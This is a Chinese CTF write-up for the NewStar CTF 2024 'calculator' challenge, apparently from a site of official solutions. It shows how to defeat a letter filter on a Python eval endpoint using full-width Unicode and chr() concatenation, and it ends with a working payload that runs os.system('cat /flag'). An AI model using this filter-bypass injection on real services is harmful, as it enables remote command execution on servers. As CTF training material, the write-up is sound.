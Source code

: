 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# 臭皮的计算器

F12看源码发现一串Unicode编码的字符，

![F12看源码](/assets/images/wp/2024/week3/jisuanqi_1.png)

根据提示进入/calc路由，发现是一个计算器，F12有源码：

![计算器F12的源码](/assets/images/wp/2024/week3/jisuanqi_2.png)

审计发现过滤了所有字母，结合之前看到的，得知unicode编码（全角英文）＋chr()字符拼接绕过

> 当然八进制也可以绕过

这里根据源码可知是模拟了一个python命令执行的环境，所以可有先去了解一下python是怎么执行系统命令的。

注意用bp发送的时候，+号要变成%2b，否则会被当做空格处理

```python
_＿ｉｍｐｏｒｔ_＿(ｃｈｒ(111)+ｃｈｒ(115)).ｓｙｓｔｅｍ(ｃｈｒ(99)+ｃｈｒ(97)+ｃｈｒ(116)+ｃｈｒ(32)+ｃｈｒ(47)+ｃｈｒ(102)+ｃｈｒ(108)+ｃｈｒ(97)+ｃｈｒ(103))
```
